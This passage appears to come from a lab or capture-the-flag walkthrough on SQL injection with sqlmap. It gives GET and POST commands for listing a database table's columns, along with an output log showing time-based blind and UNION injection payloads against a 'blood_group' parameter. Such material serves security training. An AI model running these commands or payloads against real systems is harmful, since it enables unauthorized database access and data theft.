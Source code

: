   
  

Once we have available tables, now let’s gather the columns from the table blood_db.  
  
**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`  
**  
  
**Using POST based Method**

`sqlmap -r req.txt -D blood -T blood_db --columns`

**`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`  
**  

Getting Tables

```shell-session
nare@nare$ sqlmap -r req.txt -D blood -T blood_db --columns
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```

  
Or we can simply dump all the available databases and tables using the following commands.  

  